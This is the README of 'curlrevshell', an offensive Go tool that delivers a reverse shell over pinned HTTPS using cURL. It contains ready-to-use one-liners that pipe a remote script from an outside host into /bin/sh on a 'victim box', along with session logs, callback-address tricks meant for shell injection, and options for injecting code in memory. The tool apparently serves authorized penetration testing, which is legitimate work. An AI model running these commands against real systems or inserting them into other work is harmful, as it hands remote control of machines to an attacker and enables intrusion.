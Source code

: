 cURL-Powered Reverse Shell
==========================
Somewhat kooky replacement for the typical `bash >/dev/tcp...` reverse shell,
but with the following "features":

- Underlying comms via HTTPS via double cURL
- Self-signed TLS certificate, plus certificate pinning
- Optionally serves static files
- Accepts multiple shells in series, like `nc -lk` but in color
- IPv6-ready
- Logged [feature creep](./doc/changelog.md)
- Non-zero [documentation](./doc/README.md)
- Makefiles which coldheartedly assume
  [BSD Make](https://man.openbsd.org/make)
- Easyish in-target-memory [shell function sender](./doc/flags.md#-ctrl-i)
- Other [tool~s~](./doc/tools.md)

For legal use only.

Quickstart
----------
1. Install the Go compiler (https://go.dev/doc/install).
2. Install `curlrevshell` and start it.
   ```sh
   go install github.com/magisterquis/curlrevshell@dev
   curlrevshell
   ```
3. Get a shell, using one of the lines under `To get a shell:`.

There are a few options, try `-h` for a list.

Example
-------
It should look like the following, but with nicer colors:
```
$ go install github.com/magisterquis/curlrevshell@dev
go: downloading golang.org/x/sync v0.8.0
go: downloading golang.org/x/net v0.29.0
go: downloading github.com/magisterquis/goxterm v0.0.1-beta.2
go: downloading golang.org/x/tools v0.25.0
go: downloading golang.org/x/exp v0.0.0-20240909161429-701f63a606c0
go: downloading golang.org/x/sys v0.25.0
go: downloading golang.org/x/text v0.18.0
$ curlrevshell
01:04:42.760 Listening on 0.0.0.0:4444
01:04:42.760 To get a shell:

curl -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c | /bin/sh

01:04:55.247 [192.168.1.20] Sent script: ID:zcj5vz3zp6ce URL:192.168.1.10:4444
01:04:55.259 [192.168.1.20] Input connected: ID:1jns1whwi1p1q
01:04:55.259 [192.168.1.20] Output connected: ID:1jns1whwi1p1q
01:04:55.259 [192.168.1.20] Shell is ready to go!
> id
01:05:10.753 uid=1000(you) gid=1000(you) groups=1000(you), 0(wheel), 117(dialer)
```
On `192.168.1.20`, the victim box, somewhere between `01:04:42.760` and `01:04:55.247`:
```sh
curl -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c | /bin/sh
```

Usage
-----
```
Usage: curlrevshell [options]

Even worse reverse shell, powered by cURL.

Keyboard Shortcuts:
Ctrl+O - Mute output for a couple of seconds (for if you cat a huge file)

Options:
  -callback-address address
    	Additional callback address or domain, for one-liner printing (may be repeated)
  -callback-template template
    	Optional callback template file, used if it exists
  -ctrl-i source
    	Tab/Ctrl+I's insertion source file or directory
  -icanhazip
    	Query icanhazip.com for a callback address
  -ipv6-one-liners
    	Also print callback one-liners with IPv6 addresses
  -listen-address address
    	Listen address (default "0.0.0.0:4444")
  -log file
    	Optional file to which to write JSON logs
  -no-timestamps
    	Don't print timestamps
  -one-shell
    	Close listening socket when first shell connects
  -print-ctrl-i
    	Print what would be sent with Tab/Ctrl+I and exit
  -print-default-template
    	Write the default template to stdout and exit
  -prompt string
    	Terminal prompt; don't forget a trailing space (default "> ")
  -serve-files-from directory
    	Optional directory from which to serve static files
  -tls-certificate-cache file
    	Optional file in which to cache generated TLS certificate (default "/home/stuart/.cache/sstls/cert.txtar")
```

Details
-------
Under the hood, it's really just a little HTTP server with four endpoints:

Endpoint          | Description
------------------|------------
`/c`              | Serves up a little script that takes the place of `bash >/dev/tcp...` and makes you appreciate admins not using `ps awwwfux`.
`/i/{id}`         | Long-lived connection for input from you to the shell.
`/io`             | A bidirectional connection between you and the shell, kinda `/i` and `/o` at the same time.
`/o/{id}`         | Output from the shell to you, one line at a time.  The `{id}` has to match `/i`'s.
`/{anythingelse}` | Either serves up files or 404's if nobody gave it `-serve-files-from` (which doesn't actually have to be a directory).

Callback Template
-----------------
The script generated with `/c` can be changed by writing a new template and
telling the program about it with `-print-default-template`.  It usually looks
like
```sh
$ curlrevshell -print-default-template >custom.tmpl # Get the default template to start with
$ vim ./custom.tmpl                                 # Mod ALL the things!
$ curlrevshell -callback-template ./custom.tmpl     # Run with your fancy new template
```
The struct passed to the template is `TemplateParams` in
[script.go](internal/hsrv/script.go).  The default template is
[script.tmpl](internal/hsrv/script.tmpl).  It's re-read every time it's needed,
so feel free to change it as often as you'd like.

A script to generate a custom callback template with embedded shell functions
can be made with `make tools/funcgen` and is found in `tools/funcgen`.

On Linux, you'll probably need BSD make(`apt/yum/such install bmake`, or
thereabouts) and add a `b` before the `make`s.

Callback Address
----------------
Most of the time if you can connect to the server to grab a script (i.e. `/c`)
the server will work out the right callback address.  Most of the time.  For
those times which aren't Most, giving a URL with either a `c2` parameter to `/c`
or a `c2:` header should clear things up.  This is clearer with an example:

### As a URL parameter
The Request for a script:
```sh
curl -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c?c2=kittens.com'
```
The `curl` command in the script:
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com/i/1upal29kpq9g7 </dev/null 2>&0 |
```
With `?c2=kittens.com` it would have been `https://192.168.1.10:4444` instead.

The server also tells us that the script was generated for `kittens.com`:
```
22:08:20.488 [192.168.1.20] Sent script: ID:1upal29kpq9g7 URL:kittens.com
```

### As a header
Sometimes it's a pain to put `?` and such in shell injection.  Headers are
easier.  We'll also add a port this time.
```sh
curl -Hc2:kittens.com:22 -sk --pinnedpubkey sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY= https://192.168.1.10:4444/c
```
Weird flex, but it worked.
```sh
curl -Nsk --pinnedpubkey "sha256//9nkpEPFYzXMxoVTGImPROp+qkk+B1QQIut2jX4qohgY=" https://kittens.com:22/i/2v0ohzqf5kw1t </dev/null 2>&0 |
```
Server agrees
```
22:14:13.902 [192.168.1.20] Sent script: ID:2v0ohzqf5kw1t URL:kittens.com:22
```

TLS
---
TLS is all via a pinned self-signed certificate.  By default, the certificate
is cached in a file, mostly to keep from having to copy/paste a new fingerprint
every time a ragey Ctrl+C kills the current shell.  Caching can be disabled
with `-tls-certificate-cache ""`.

File Insertion
--------------
It's kinda nice to bring your own functions, even nicer to not have to
drop them to disk, and even nice still to not have to copy/paste a few hundred
lines of shell script by hand.

Works with single files, Perl scripts, and even entire directories.

More info in [the docs](./doc/flags.md#-ctrl-i).

